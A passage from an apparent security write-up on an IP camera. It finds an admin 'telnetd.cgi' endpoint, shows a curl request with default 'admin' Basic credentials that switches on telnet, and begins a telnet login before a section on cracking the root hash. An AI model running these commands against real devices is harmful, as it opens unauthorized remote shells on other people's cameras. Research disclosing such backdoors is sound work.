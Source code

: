```
adv_videoclip.cgi             st_device.cgi
adv_wireless.cgi              st_log.cgi
adv_wizard.cgi                support_ack.cgi
alarm_out_action.cgi          support_adv.cgi
calibration.cgi               support_home.cgi
cam_control.cgi               support_men.cgi
cam_patrol_control.cgi        support_status.cgi
cert_create.cgi               support_tools.cgi
cert_create_request.cgi       telnetd.cgi
cert_property.cgi             test_ftp_status.cgi
cert_remove.cgi               test_mail_status.cgi
cert_request_info.cgi         tools_admin.cgi
cert_upload.cgi               tools_default.cgi
ddns_status.cgi               tools_firmware.cgi
export.cgi                    tools_system.cgi
export_log.cgi                update.cgi
factoryUpdate.cgi             web_log.cgi
forceUpdate.cgi               wireless_ate.cgi
```
Look at that! A file in the route `cgi/admin/telnetd.cgi` exists! There's no way they left a way for setting up the backdor via the web interface, this has to be on purpouse, or as I prefer to call it, a *backdoor-by-design*.
## Leveraging the backdoor
Although the file is in ELF format (executable and linkable format), so the data is binary, we can still try to read strings from it:
```
...
command
on
/usr/sbin/telnetd 1>/dev/null 2>/dev/null
telnetd is started successfully. Please use telnet to login console.
off
killall telnetd 1>/dev/null 2>/dev/null
telnetd is stopped successfully.
unknown command. Please specify 'on' or 'off'.
...
```
From this, we speculate that we have to pass a command to the request. Lets try with the url parameter `?command=on`

<div align=center>
    <img src="assets/telnetdcgi.png" width="700" />
</div>

Boom! Backdoored. Now we can do it from the terminal. Note the auth token. This is the truncated base64 (no padding) string `username:password`, in this case `admin:`
``` bash
$ curl "http://192.168.1.23/cgi/admin/telnetd.cgi?command=on" --header "Authorization: Basic YWRtatW46"
# ...<b>telnetd is started successfully. Please use telnet to login console.</b>...
```
#### Cracking the root password hash
Now lets try logging in
```
$ telnet 192.168.1.23
Trying 192.168.1.23...
Connected to 192.168.1.23.
Escape character is '^]'.
```